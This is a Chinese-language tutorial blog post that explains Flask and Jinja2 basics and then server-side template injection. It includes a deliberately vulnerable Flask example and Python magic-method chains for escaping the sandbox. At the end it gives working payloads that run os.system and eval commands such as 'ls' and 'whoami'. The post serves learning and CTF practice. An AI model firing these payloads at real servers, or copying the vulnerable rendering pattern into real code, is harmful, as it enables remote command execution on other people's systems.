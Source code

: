 ```yaml
---
layout: post
title: 2020-12-07-SSTI模板注入与Flask基础（略带沙箱逃逸）
date: 2020-12-07
categories: blog
tags: [web,php]
description: 学习Flask模板注入了
typora-copy-images-to: ..\img
typora-root-url: ..
---
```


# SSTI模板注入与Flask基础

### Flask简介

Flask是一个Python上的**Web应用程序框架**（Web Application Framework）。

**Web应用程序框架**是一个库和模块的集合，使Web应用程序开发人员能够编写Web应用程序，而不必担心协议，线程管理等低级细节。



Flask基于**Werkzeug WSGI**工具包和**Jinja2**模板引擎。

> ##### Werkzeug
>
> 它是一个WSGI工具包，它实现了请求，响应对象和实用函数。 这使得能够在其上构建web框架。 Flask框架使用Werkzeug作为其基础之一。
>
> ##### jinja2
>
> jinja2是Python的一个流行的模板引擎。Web模板系统将模板与特定数据源组合以呈现动态网页。
>
> Flask通常被称为微框架。 它旨在保持应用程序的核心简单且可扩展。Flask没有用于数据库处理的内置抽象层，也没有形成验证支持。相反，Flask支持扩展以向应用程序添加此类功能。

**Jinjia模板引擎特点**

- `{{ ... }}`：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
- `{% ... %}`：装载一个控制语句。
- `{# ... #}`：装载一个注释，模板渲染的时候会忽视这中间的值。

**控制语句**

Jinjia控制语句都是放在`{% ... %}`中，并且有一个语句`{% endxxx %}`来进行结束。

**Jinja2中for循环内置常量**

| loop.index  | 当前迭代的索引（从1开始）           |
| ----------- | ----------------------------------- |
| loop.index0 | 当前迭代的索引（从0开始）           |
| loop.first  | 是否是第一次迭代，返回True\/False   |
| loop.last   | 是否是最后一次迭代，返回True\/False |
| loop.length | 序列的长度                          |

 **注意：不可以使用`continue`和`break`表达式来控制循环的执行。**

**过滤器**

过滤器是通过（`|`）符号进行使用的，例如：`{{ name|length }}：`将返回name的长度。

过滤器相当于是一个函数，把当前的变量传入到过滤器中，然后过滤器根据自己的功能，再返回相应的值，之后再将结果渲染到页面中。

## SSTi漏洞的产生

ssti漏洞产生于网页模板中的变量被二次渲染时。

什么是二次渲染，这里用两个例子简单展示：

无二次渲染：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html='<h1>Welcome</h1></br><p>{{str}}</p>'
    return render_template_string(html,str=str)
if __name__=='__main__':
    app.run()
```

有二次渲染行为：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html="<h1>Welcome</h1></br><p>%s</p>"%(str)
    return render_template_string(html)
if __name__=="__main__":
    app.run()
```

如果在页面中找到了这样一个ssti漏洞，便意味着我们能够在这个注入点执行该模板引擎的控制语句以及命令

Flask SSTI 题的基本思路就是利用 python 中的 **魔术方法** 找到自己要用的函数。

```
__dict__：保存类实例或对象实例的属性变量键值对字典

__class__：返回调用的参数类型

__mro__：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。 

__base__: 返回该对象所继承的基类

__bases__：返回该对象所继承的类型列表

__subclasses__：以一个列表的形式返回对象的子类

__init__：类的初始化方法

__globals__：函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
```

基本步骤：

使用魔术方法进行函数解析，再获取基本类：

```python
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

获取基本类后，继续向下获取基本类 object 的子类：

```python
object.__subclasses__()
```

这里有可能子类中就含有可以利用的函数，如file,eval等，但是一般是没有的

可以用以下模板控制语句找找看

```
{%for c in ''.__class__.__base__.__subclasses__()%}
{% if 'os' in c.__init__.__globals__%}
{{loop.index0 ~'_'~c.__name__~'-'}}
{% else %}
{{ '-' }}
{%endif%}
{% endfor %}
```

找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

```python
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

或者用模板控制语句找到可以利用的模块，或者__builtins__

```
{%for c in ''.__class__.__base__.__subclasses__()%}
{% if '__builtins__' in c.__init__.__globals__%}
{{loop.index0 ~'_'~c.__name__~'-'}}
{% else %}
{{ '-' }}
{%endif%}
{% endfor %}
```



构造payload

```
''.__class__.__base__.__subclasses__()[59]

''.__class__.__base__.__subclasses__()[81].__init__.__globals__['__builtins__']

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')

''.__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("whoami").read()')
```

